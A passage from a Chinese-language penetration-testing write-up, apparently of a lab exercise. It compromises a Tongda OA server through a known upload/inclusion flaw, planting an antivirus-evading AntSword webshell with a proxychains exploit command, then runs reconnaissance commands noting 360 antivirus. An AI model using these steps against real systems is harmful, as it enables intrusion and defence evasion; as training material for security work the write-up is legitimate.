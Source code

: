 
`这么多端口，仅仅发现80开放是很不正常的。明显是存在防火墙拦截。`

`我们代理火狐浏览器去访问一下80端口看看。发现是通达oa`

#### 4.2 对OA服务器进行渗透

4.2.1 通达OA 办公系统getshsell

`这里使用通达oa之前爆的一个文件上传加文件包含漏洞进行利用攻击，下载exp`

`要将一下源代码进行修改，因为自带的代码生成的shell一般都会被查杀。`

`这里直接使用蚁剑生成一些免杀的一句话`

将生成代码进行base64编码 

将编码生成代码替换

> 
- `使用“ proxychains python3 tongda\ exp.py -H http://10.10.1.130 -file-shell ”生成木马。`


 

`代理火狐浏览器成功访问，木马上传成功`

设置蚁剑代理后，连接 

连接成功 

4.2.2 对通达OA服务器进行信息收集 

此时有一个比较迷的问题，就是蚁剑执行命令没有回显

可以操作文件，没有命令回显，那就让命令执行结果写入文件中 

 

> 
`使用“ net start &gt;&gt; cmd.txt ”看看已经启动的服务。映入眼帘的360.`


> 
- `在使用“ tasklist &gt;&gt; cmd.txt ”，“netstat -ano &gt;&gt; cmd.txt”，“systeminfo &gt;&gt; cmd.txt”看看`


> 
使用命令“ ipconfig /all &gt; cmd.txt ”。 


 

常用命令：

> 
- `net start 看看已经启动的服务。 tasklist 查看计算机应用列表。`- `netstat -ano 查看网络连接信息。 Systeminfo 查看计算机信息。`- `ipconfig /all 查看网络信息。 whoami 查看当前权限。`


信息整理： 

> 
- `oa 服务器存在两个 IP `- `分别是 10.10.1.130 10.10.10.166 `- `防护软件 ：`- `内置系统防火墙 Windows Firewall 360 安全卫士 360 杀毒软件`
